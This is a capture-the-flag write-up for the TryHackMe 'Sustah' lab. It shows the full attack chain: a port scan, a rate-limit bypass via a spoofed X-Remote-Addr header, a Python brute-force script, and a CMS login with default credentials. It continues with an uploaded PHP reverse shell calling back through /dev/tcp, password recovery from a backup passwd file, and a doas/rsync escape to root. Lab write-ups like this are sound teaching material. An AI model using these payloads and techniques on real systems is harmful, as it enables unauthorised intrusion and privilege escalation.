




# THM |  Sustah Write-Up


Description: 

The developers have added anti-cheat measures to their game. Are you  able to defeat the restrictions to gain access to their internal CMS?

------

So after deploying the machine , here is what is demanded from us to do :




## Nmap Scan :

```sh
└──╼ $nmap -vv 10.10.56.245
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-26 15:13 +01
Initiating Ping Scan at 15:13
Scanning 10.10.56.245 [2 ports]
Completed Ping Scan at 15:13, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:13
Completed Parallel DNS resolution of 1 host. at 15:13, 0.20s elapsed
Initiating Connect Scan at 15:13
Scanning 10.10.56.245 [1000 ports]
Discovered open port 80/tcp on 10.10.56.245
Discovered open port 22/tcp on 10.10.56.245
Discovered open port 8085/tcp on 10.10.56.245
Increasing send delay for 10.10.56.245 from 0 to 5 due to max_successful_tryno increase to 4
Increasing send delay for 10.10.56.245 from 5 to 10 due to max_successful_tryno increase to 5
Increasing send delay for 10.10.56.245 from 10 to 20 due to max_successful_tryno increase to 6
Completed Connect Scan at 15:14, 63.76s elapsed (1000 total ports)
Nmap scan report for 10.10.56.245
Host is up, received syn-ack (0.27s latency).
Scanned at 2021-01-26 15:13:11 +01 for 65s
Not shown: 997 closed ports
Reason: 997 conn-refused
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
8085/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 64.27 seconds

```

As you can see , we have 3 ports open .

Browe to http://${machine-ip}/ . you can see :


let's now see what is running in port 8085 :


It's look like a challenging game , and we have to enter the right number to get the revealed path .

we have the chance of 0.004% . what's mean that the range of number is more than 10 000 .

so I generated a wordlist number from 10 000 to 100 000 using this [website](https://pinetools.com/generate-list-numbers)


I selected all and past them inside a file wordlist.txt .

```sh
─[itatshi@parrot]─[~/Desktop/THM/sustah]
└──╼ $head wordlist.txt 
10000
10001
10002
10003
10004
10005
10006
10007
10008
10009

```

I intercepted the request using Burp. the request is like :

```sh
POST / HTTP/1.1
Host: 10.10.56.245:8085
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://10.10.56.245:8085
DNT: 1
Connection: close
Referer: http://10.10.56.245:8085/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

number=199
```

I tried to bruteforce the number but there is a rate limiting feature.

The response looks like :

```
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Tue, 26 Jan 2021 14:39:21 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 1004
X-RateLimit-Limit: 10
X-RateLimit-Remaining: 9
X-RateLimit-Reset: 1611672022
Retry-After: 60

```

Let's check [HackTricks - Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass) to change our IP origin using a HTTP header.

I observed that by adding `X-Remote-Addr: 127.0.0.1` the `X-RateLimit-xxx` headers were removed from the answer.

Then , Since burpSuite intruder is slow (I don't have the pro version) .I created a python script that send post requests to the web server .

here is the script :

```python
import requests
import sys

url = "http://<you-machine-ip>:8085/" //change here
expression = "Oh no! How unlucky. Spin the wheel and try again"

def brute(number):
	data = {'number':number, }
	r = requests.post(url,data=data , headers = {"X-Remote-Addr": "127.0.0.1"})
	if expression not in r.content :
		print "[+] Correct number Found: ",number
		sys.exit()
	else:
		print "[+] try number : ",number
		


def main():
	words = [w.strip() for w in open("wordlist.txt", "rb").readlines()] #parse wordlist
	for payload in words:
		brute(payload)

if __name__ == '__main__':

```

**Note**: that script should be in the same location as the wordlist.txt file .



after a short time (up to 7 min) , we could find the correct number and the path .

  **What is the number that revealed the path?**                             

**Answer** : ** ***

 **Name the path.**

**Answer** :   /Yo******************@th/

By browsing to that path , we can see the name of that CMS .

**What is the name of CMS?**

**Answer** : ****

By browsing `/<path>/about.php` we can find the installed version (7.2) but it's not the answer expected, I found another path with a changelog `/<path>/changes.txt`, this one contains the right version.

 **What version of the CMS is running?**                             

**Answer** : x.x

Also at `/<path>/lorem.php` there a message:

> Log in with admin and changeme to try the editor.

We can log in with the credentials at `/<path>/lorem.php?login=admin`.

This version of CMS has an RCE exploit on [exploit-db](https://www.exploit-db.com/exploits/48780)

## File upload

We can upload files at `/<path>/codebase/dir.php?type=filenew`.

Let's create a PHP webshell and upload it:

```php
└──╼ $cat php_revshell.php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<your-ip>/1234 0>&1'");?>
```

Then we got that .

```
Processing file upload request...
Please be patient, may take a while.
Do not close this window whilst upload is in progress.
Destination : <path>/img
OK: php_revshell.php uploaded.
Files saved to: <path>/img
All files processed successfully

Press
(or Ctrl-R) to see changes, then select a file from the lefthand tree.
```

So my webshell is available at: `/<path>/img/php_revshell.php`.

Start a netcat listener . and then browse to that php file .

```sh
sudo nc -nlvp 1234
[sudo] password for itatshi: 
listening on [any] 1234 ...
connect to [10.6.51.254] from (UNKNOWN) [10.10.56.245] 41264
bash: cannot set terminal process group (1250): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu-xenial:/var/www/html/YouGotTh3P@th/img$ ls
ls
frontpage
gallery
php_revshell.php
webshell.php

```

Let's upgrade our shell .

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
$ export TERM=xterm
```

Right now we can't read the user flag.

There is a hint saying to check for backups but for some reason the find command is forbidden.

I checked the backup directory

```sh
www-data@ubuntu-xenial:/var/backups$ ls -la
ls -la
total 636
drwxr-xr-x  2 root root     4096 Dec  9 10:04 .
drwxr-xr-x 14 root root     4096 Dec  6 06:00 ..
-r--r--r--  1 root root     1722 Dec  6 13:19 .bak.passwd
-rw-r--r--  1 root root    51200 Dec  6 06:25 alternatives.tar.0
-rw-r--r--  1 root root     6308 Dec  9 06:46 apt.extended_states.0
-rw-r--r--  1 root root      715 Dec  6 17:08 apt.extended_states.1.gz
-rw-r--r--  1 root root      509 Nov 12 19:53 dpkg.diversions.0
-rw-r--r--  1 root root      207 Dec  6 06:01 dpkg.statoverride.0
-rw-r--r--  1 root root   547201 Dec  6 06:19 dpkg.status.0
-rw-------  1 root root      849 Dec  6 06:17 group.bak
-rw-------  1 root shadow    714 Dec  6 06:17 gshadow.bak
-rw-------  1 root root     1695 Dec  6 13:19 passwd.bak
-rw-------  1 root shadow   1031 Dec  6 06:17 shadow.bak
www-data@ubuntu-xenial:/var/backups$ cat .bak.passwd
cat .bak.passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
kiran:x:1002:1002:try******************kiran:/home/kiran: // I dropped a section of the passwd

```

Since we have a TTY reverse shell we can use su.

```sh
$ su kiran
su kiran
Password: try********************kiran // I dropped a section of the passwd

kiran@ubuntu-xenial:/var/backups$ cd
cd
kiran@ubuntu-xenial:~$ ls
ls
user.txt
```

Answer:      ************************************************************************************

## Elevation of Privilege : from kiran to root:

By looking for a SUID binary manually I found there was `doas` in `/usr/local/bin`. So we can check the configuration in `/usr/local/etc/doas.conf` instead of `/etc/doas.conf`.

[Doas](https://book.hacktricks.xyz/linux-unix/privilege-escalation#doas) is an alternative to sudo.

```sh
kiran@ubuntu-xenial:~$ ls -lh /usr/local/bin
total 68K
-rwsr-x--x 1 root root  38K Dec  6 17:13 doas
-rwxr-xr-x 1 root root  221 Dec  6 06:21 echo_supervisord_conf
-rwxr-xr-x 1 root root  211 Dec  6 06:17 flask
-rwxr-xr-x 1 root root  220 Dec  6 06:21 gunicorn
-rwxr-xr-x 1 root root  221 Dec  6 06:21 pidproxy
-rwxr-xr-x 1 root root  226 Dec  6 06:21 supervisorctl
-rwxr-xr-x 1 root root  224 Dec  6 06:21 supervisord
-rwxr-xr-x 1 root root 1.2K Dec  6 17:13 vidoas

kiran@ubuntu-xenial:~$ cat /usr/local/etc/doas.conf
 permit nopass kiran as root cmd rsync
```

let's check [GTFOBin](https://gtfobins.github.io/)



```sh
kiran@ubuntu-xenial:~$ doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
doas rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
id
uid=0(root) gid=0(root) groups=0(root)
# ls
ls
user.txt
# ls /root
ls /root
root.txt
# 
```

Boom , we're finally rooted the system . let's get the root flag and complete the room.



 Happy Hacking


